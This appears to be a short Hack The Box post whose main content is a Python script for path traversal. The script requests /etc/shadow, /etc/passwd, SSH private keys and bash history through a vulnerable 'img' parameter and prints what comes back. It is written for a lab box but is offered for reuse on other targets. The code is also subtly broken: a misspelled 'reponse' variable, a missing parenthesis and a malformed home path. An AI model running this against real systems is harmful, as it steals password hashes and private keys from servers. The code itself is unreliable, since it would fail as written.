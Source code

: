 ### Hack The Box - Path Traversal

Whilst the path can change for path traversal the majority of the time its the same files your interested in.

ive compiled a small list and added them to a python script that can be edited to fit the requirements.


### path-traversal.py
```python
import requests

host                = "test.htb"                                                    #edit this!
path_to_traverse    = "http://"+host+"/vurn.php?img=../../../../../../../../../"    #edit this!
user                = "admin"                                                       #edit this!
local_files         = ["/etc/passwd","/etc/hosts","/etc/hostname","/etc/crontab","/etc/shadow"]
user_files          = ["/.ssh/id_rsa","/.ssh/authorized_keys","/.bash_history","/.ssh/id_dsa","/.ssh/id_ecdsa","/.ssh/id_ed25519"]

headers = {
    'Host': host,
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Connection': 'close',
    'Upgrade-Insecure-Requests': '1',
}

for file in local_files:
    response = requests.get(path_to_traverse+str(file),headers=headers,verify=False,)
    if reponse.text:
        print (file)
        print (response.text)
        print ("--------------------------------------------------")

for path in user_files:
    response = requests.get(path_to_traverse+"/home"+ user + path ,headers=headers,verify=False,)
    if reponse.text:
        print ("/home/"+ user + path)
        print (response.text)
        print ("--------------------------------------------------"
```
